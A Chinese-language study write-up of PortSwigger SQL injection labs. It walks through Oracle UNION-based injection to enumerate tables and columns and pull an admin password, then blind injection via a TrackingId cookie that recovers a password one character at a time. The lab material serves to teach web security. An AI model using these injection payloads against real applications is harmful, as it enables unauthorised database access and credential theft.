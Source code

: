 由于Oracle数据库中的`SELECT`必须要和`FROM`配合出现，所以可以用`dual`表来进行占位。

1. 通过尝试，`'UNION+SELECT+'abc',+'abc'+FROM+dual--`成功，说明有当前表有两列且都是字符串类型。
2. 查看有哪些表：`'UNION+SELECT+table_name,+NULL+FROM+all_tables--`，找到了**USERS_AHJNLZ**这张表。
3. 查看这张表中有哪些列：`'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_AHJNLZ'--`最终找到存放用户名和密码的列名为：PASSWORD_QAGOVT和USERNAME_WGWVWL
4. 最后就可以找到admin的密码：`'UNION SELECT USERNAME_WGWVWL, PASSWORD_QAGOVT FROM USERS_AHJNLZ--`

![image-20220208154259474](https://tva1.sinaimg.cn/large/008i3skNgy1gz6j89ft6oj30j20b0dg9.jpg)

### 4. 盲注（Blind SQL Injection)

在很多情形下，SQL注入后不会显示错误信息甚至不会返回任何信息，例如应用有SQL漏洞，但是其HTTP回应不含相应注入的返回信息和数据库错误信息。常用的如UNION注入就不再适用了。这种blind漏洞仍然是可利用的，只不过更加复杂。常用的盲注方法有：

#### 1）触发条件应答盲注

例如在使用cookie登录时，服务器可能使用以下语句验证cookie：

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'cookie'`

不同于之前的注入，不正确的cookie不会返回任何信息，但是正确的cookie会重定位到一个例如Welcome Back的页面，这样的行为就是一种条件应答，并且可以作为一个注入点。这样的注入如何进行呢？考虑下面两种cookie后的输入

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

第一个请求会显示welcome back，而第二个请求因为条件恒为false会导致没有返回，也就不会显示welcome back，这样的差别就让我们可以判断请求的对错从而获取数据库内的相关信息。例如，假设数据库中有一个User表，其中有Username和Password列，其中存放着用户Administrator的信息，我们可以通过每次确定一个字符的方式获取其登录密码，如下所示：

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

如果返回welcome页面，则可以确定其密码的第一个字符大于m。重复此步骤直到获得完整密码。

> [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

此lab的任务就是找到admin的密码，使用Burp查看一下页面请求发现了cookie：

`Cookie: TrackingId=xrZbR12nPsEWP8FJ; session=BBFx677kQDfMJXYbCXWJFahUhthnZdK3`

尝试再其后添加`AND '1'='1`，结果可以正常显示Welcome back，添加`AND '1'='2`后则不能正常显示，说明可以进行盲注。第二步就是逐步获得admin的密码。首先确定存在数据库，确定列名和admin的存在性。

`' AND (SELECT 'a' FROM users LIMIT 1)='a`

结果表明存在users表。

`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

结果表明存在username这一列，并且存在用户administrator。接下来，最好确定一下密码的长度。

`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`

在repeater中不断修改长度，最终得到密码有20位，还是挺复杂的。接下来就可以尝试获取密码的具体值了。

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`

这部分较为简单的方法就是使用intruder写payload进行自动攻击。
